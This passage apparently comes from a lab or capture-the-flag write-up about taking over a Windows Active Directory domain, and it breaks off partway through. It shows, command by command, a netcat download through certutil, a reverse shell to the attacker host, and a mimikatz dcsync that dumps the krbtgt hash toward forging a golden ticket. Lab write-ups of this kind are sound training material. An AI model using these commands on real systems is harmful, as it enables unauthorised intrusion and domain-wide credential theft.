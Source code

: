 an d we are able to rdp to the machine

we run python server

```bash
python3 -m http.server 8001
```

we use certutil to send nc64.exe
```bash
certutil -urlcache -f http://10.8.7.96:8001/nc64.exe nc64.exe

```

and than exeute nc64.exe file

```bash

.\nc64.exe 10.8.7.96 4444 -e cmd.exe
```

we get reverse shell
```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.7.96] from (UNKNOWN) [10.10.178.54] 53188
Microsoft Windows [Version 10.0.20348.887]
(c) Microsoft Corporation. All rights reserved.


```

its time for mimikatz

```bash
.\mimi.exe
```

Following this [article](https://redteamtechniques.github.io/Windows%20%26%20AD%20Hacking/Lab%20Attacks/Abusing%20Parent%20Child%20Domain%20Trusts%20for%20Privilege%20Escalation%20from%20DA%20to%20EA/), we can abuse this child->parent domain trust relationship and escalate to enterprise domain, in order to do this we need the krbtgt hash of lab.trusted.vl and the SIDs of both domains, then with mimikatz we can forge a golden ticket for the enterprise domain admin

```bash
lsadump::dcsync /domain:lab.trusted.vl /all
```

```output
Credentials:

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Object Security ID   : S-1-5-21-2241985869-2159962460-1278545866-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: ==c7a03c565c68c6fac5f8913fab576ebd==

Object RDN           : Domain Controllers

** SAM ACCOUNT **

SAM Username         : Domain Controllers
Object Security ID   : S-1-5-21-2241985869-2159962460-1278545866-516
Object Relative ID   : 516

```